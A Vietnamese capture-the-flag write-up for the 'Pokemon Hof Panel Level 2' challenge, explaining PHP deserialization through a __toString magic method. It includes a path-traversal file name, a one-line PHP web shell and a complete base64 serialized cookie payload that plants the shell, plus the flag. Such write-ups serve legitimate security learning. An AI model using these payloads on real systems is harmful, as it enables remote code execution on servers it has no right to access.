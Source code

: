 # Pokemon Hof Panel Level 2 

> bài này sau khi giải kết thúc thì mình đọc wu của các anh thì mới ngộ ra ( lúc làm mình đã có ý tưởng nhưng mà ẩu quá nên bỏ :> gà quá huhu)

Bài này thì cơ bản vẫn giống bài level1 nhưng bài này yêu cầu chúng ta RCE dựa vào các method_magic trong php như *__contructer*, *__destructer*, *__toString*

chúng ta cùng nhìn vào *class Utils*

![Alt text](image.png)

bạn đấy hàm to_String() , nó tự gọi hàm  writelog() , khi mà object của mình được sử dụng như một String , nhìn vào đây :

```
  file_put_contents("/tmp/logs/".date('H_i_s').$this->logfile, $this->error);
```
tham số 1 chính là postion mà log file được lưu , tham số thứ hai là content của file đó 
nếu như giờ phần content đó là shell code và file name là file PHP thì mình đã RCE được đúng không ? 
Vấn đề nằm ở đây là : 
   - Làm sao back folder vì tmps/logs :  người dùng bình không vào được ? 
   vậy payload cần truyền vào đoạn đó là :  
   ```
   ../../../../../var/www/html/khanh.php
   ```
bởi vì server là apache **Server: Apache/2.4.57 (Debian)**
  - Shell code : 
  ```
  <?php   system(\$_GET['cmd']); ?>
  ```
  - Làm sao trigger được *__ToString()* chạy được , ( mình  bị ngu đoạn này trong thời gian giải diễn ra @@ ), để ý src của  nó thì thấy khi isChampion của user -> true thì mình vào được và nó có nối chuỗi với $user->name ( sẽ ra sao nếu $user->name của mình chính là object của class Utils -> có phải nó sẽ trigger được toString không ?)
  
  ![Alt text](image-3.png)

  tiến mình ghép các payload lại hoàn chỉnh như sau  : 

  ![Alt text](image-1.png)
 
 ```
 Tzo3OiJUcmFpbmVyIjozOntzOjQ6Im5hbWUiO086NToiVXRpbHMiOjI6e3M6NToiZXJyb3IiO3M6MzE6Ijw/cGhwICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO3M6NzoibG9nZmlsZSI7czozNzoiLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9odG1sL2toYW5oLnBocCI7fXM6Nzoic3RhcnRlciI7TjtzOjEwOiJpc0NoYW1waW9uIjtiOjE7fQ==
 ```
  giờ lấy nó thay vào biến cookie và send là chúng ta sẽ up được shell code 

  ![Alt text](image-2.png)
  
  giờ thì lấy flag ra thôi !

  # FLAG 

  ```
  KCSC{w3lc0me_t0_h4ll_0f_f4m3}
  ```
